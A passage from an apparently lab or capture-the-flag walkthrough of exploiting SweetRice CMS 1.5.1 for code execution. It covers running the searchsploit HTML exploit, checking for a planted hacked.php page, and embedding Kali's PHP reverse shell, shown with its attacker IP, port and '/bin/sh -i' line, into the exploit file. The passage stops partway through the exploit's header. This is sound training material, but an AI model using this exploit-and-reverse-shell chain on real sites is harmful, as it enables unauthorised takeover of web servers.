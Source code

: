Enter your username and password to login to the website management. One thing I had to follow along the video with is to run the exploit again after logging in to the website management page. 
```
firefox 40700.html
```
Commented out in the bottom of the exploit we pulled down from searchsploit will give you an address to see if this was successful by giving you a php info page.
```
http://10.10.111.161/content/inc/ads/hacked.php
```
As long as this page generates you know you are on the right path.

Now that we have file execution let's give a php reverse shell a try. You can do this multiple ways. If you want to use a website to generate it for you, you can use [revshells.com](https://www.revshells.com/). If you are running kali you can copy the php-reverse shell into your directory and make the edits for this box.
```
cp /usr/share/webshells/php/php-reverse-shell.php .
```
I copied the reverse shell that came with Kali to give that a shot.

You will need you the IP address for the machine that you are using to attack this site, so in a terminal you are going to run ```ip a```. The output you are looking for is usually tun0 (tunnel 0 since since you are using a vpn to connect). If your setup is different then look for the IP address starting with 10. 

The php reverse shell file has great documentation commented out to give you more information about the file itself. What you are looking for is the lines that have ```// CHANGE THIS``` commented out afterwords. It is asking for your IP and port. Something similar to this.
```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.2.40.5';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Following along with John you are going to copy your PHP reverse shell to the previous html file that gave you the php info page. I copied the file to a new html file
```
cp 40700.html exploit.html
```
That leaves my proof of concept file in tact and now I can play with adding the php reverse shell.

How do you add your reverse shell to your proof of concept html file. I'm glad you asked. You will need to edit php youre executing, so look for the ```<?php
echo '<h1> Hacked </h1>';
phpinfo();?>```. That is what gave us our php info earlier. Now replace it with the entire text of your php reverse shell. I noticed John also changed the line of ```<input type="hidden" name="adk" value="hacked"/>``` to something different of ```<input type="hidden" name="adk" value="revshell"/>```. After the edits this is what my html file looked like.
```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
```